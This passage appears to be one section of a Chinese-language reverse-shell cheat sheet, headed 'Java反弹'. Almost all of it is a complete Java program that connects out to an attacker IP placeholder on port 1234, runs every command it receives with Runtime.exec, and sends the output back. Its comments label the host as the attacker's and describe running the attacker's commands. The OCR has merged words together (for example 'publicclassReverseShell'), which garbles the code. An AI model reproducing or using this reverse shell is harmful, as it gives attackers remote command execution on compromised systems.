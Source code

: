 ### 11. Java反弹

```text
import java.io.*;
import java.net.*;
publicclassReverseShell{
publicstaticvoidmain(String[] args){
Stringhost="x.x.x.x";// 攻击者IP
intport=1234;// 监听端口
try(Socketsocket=newSocket(host, port);
BufferedReaderin=newBufferedReader(newInputStreamReader(socket.getInputStream()));
PrintWriterout=newPrintWriter(socket.getOutputStream(),true);
BufferedReaderstdIn=newBufferedReader(newInputStreamReader(System.in));
BufferedWriterstdOut=newBufferedWriter(newOutputStreamWriter(System.out))){
// 线程用于读取攻击者的命令并执行
newThread(()->{
try{
String command;
while((command = in.readLine())!=null){
Processprocess=Runtime.getRuntime().exec(command);
// 获取命令输出
try(BufferedReaderprocessIn=newBufferedReader(newInputStreamReader(process.getInputStream()));
BufferedReaderprocessError=newBufferedReader(newInputStreamReader(process.getErrorStream()))){
String line;
while((line = processIn.readLine())!=null){
                                out.println(line);
}
while((line = processError.readLine())!=null){
                                out.println(line);
}
}
}
}catch(Exception e){
                    e.printStackTrace();
}
}).start();
// 线程用于将本地shell的输出发送到攻击者
newThread(()->{
try{
String line;
while((line = stdIn.readLine())!=null){
                        out.println(line);
}
}catch(IOException e){
                    e.printStackTrace();
}
}).start();
}catch(IOException e){
            e.printStackTrace();
}
}
}
```
